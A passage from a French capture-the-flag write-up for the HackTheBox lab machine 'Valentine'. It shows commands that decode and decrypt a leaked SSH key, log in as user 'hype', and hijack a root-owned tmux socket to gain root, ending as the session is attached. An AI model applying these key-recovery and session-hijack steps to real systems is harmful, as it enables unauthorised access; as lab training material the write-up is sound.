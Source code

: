 
### Clé SSH — Récupération

Convertir le fichier `hype_key` en binaire :

```bash
xxd -r -p hype_key hype_key.pem
```

Déchiffrer avec OpenSSL :

```bash
openssl rsa -in hype_key.pem -out hype_key_decrypted.pem
```

Utilisation :

```bash
ssh -i hype_key_decrypted.pem hype@valentine.htb
```

---

## Escalade de privilèges

Après avoir obtenu un shell SSH en tant que l’utilisateur `hype`, j’ai lancé un classique :

```bash
linpeas.sh
```

💡 **LinPEAS** a mis en évidence la présence d’un processus tmux tournant en tant que root, avec cette ligne intrigante :

```bash
root   1040  0.0  0.1  26416  1672 ?  Ss  01:24   0:00 /usr/bin/tmux -S /.devs/dev_sess
```

### Analyse

Le socket tmux (`-S /.devs/dev_sess`) est accessible (lecture/exécution) par l’utilisateur `hype`.

Le processus appartient à `root`, ce qui signifie que la session associée pourrait être `root` attachée !

### Tentatives manuelles

Liste des sessions disponibles :

```bash
tmux -S /.devs/dev_sess ls
```

Connexion à la session existante :

```bash
tmux -S /.devs/dev_sess attach
```

###  Et là, bingo !
